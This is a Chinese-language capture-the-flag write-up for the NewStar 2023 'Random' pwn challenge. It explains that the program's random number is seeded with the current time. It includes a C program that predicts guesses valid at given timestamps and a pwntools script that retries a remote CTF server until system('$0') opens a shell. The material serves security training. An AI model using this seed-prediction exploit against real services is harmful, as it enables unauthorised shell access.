 ```yaml
---
title: newstar2023 week1 - Random
date: 2023/9/28 12:00:00
tags:
    - result predicting
excerpt: 通过时间预测随机数，成功利用程序漏洞打开shell。
---
```


## 文件分析

下载`pwn`，保护全开  
ghidra分析为64位程序

## 解题思路

程序中有且仅有一个%d的输入，且匹配读入的int类型，所以不存在输入中的漏洞

但是将输入的数字猜对，可以执行system，不过是2$031中的某2个字符  
只要执行system("$0")，同样可以打开shell

随机值的种子是系统当前时间，种子相同，随机数相同  
故我们需要在正确的时间输入正确的随机数才能打开shell

## EXPLOIT

首先我们需要找到这个合适的时间

```c
// seedprobe.c
#include <stdio.h>
#include <time.h>
#include <stdlib.h>

static char cmdlist[5] = {'2', '$', '0', '3', '1'};

int main(void) {
    time_t init = time(NULL) + 5; // 为了避免本地与服务器时间不同带来的问题，故选择5秒后开始计算
    int valid = 0;
    for (int i = 0; i < 120; i++) {
        srand(init + i);
        int guess = rand();
        char c2 = cmdlist[rand() % 5];
        char c1 = cmdlist[rand() % 2];
        if (c1 == '$' && c2 == '0') { // 模拟程序运行
            time_t tmp = init + i;
            char timestr[16];
            strftime(timestr, 16, "%m-%d %H:%M:%S ", localtime(&tmp));
            printf("%s\b, guess=%d\n", timestr, guess); // 打印时间方便卡时间测试；打印数字方便读取
            valid++;
        }
    }
    if (valid > 0) 
        printf("%d valid time stamps.\n", valid);
    else
        printf("No valid time now.\n");
    return 0;
}
```

然后在合适的时间启动gdb调试，发现可以成功打开shell，于是开始打靶

```python
from pwn import *
import time

sh = process('seedprobe') # 取第一个数字
sh.recvuntil(b'=') # skip
guess = sh.recvline()[:-1] # strip '\n'
sh.close()

while True:
    sh = remote("node4.buuoj.cn", 26447)
    sh.sendline(guess)
    if sh.recvuntil(b'Ha', timeout=1) == b'': # 超时未读到Haha...即代表已在合适的时间猜对数字
        break
    sh.close()
    time.sleep(0.5)

sh.interactive()
```

## 参考文献

[模拟攻击](http://www.asuka39.top/article/security/ctf/pwn/2064/)

Done.
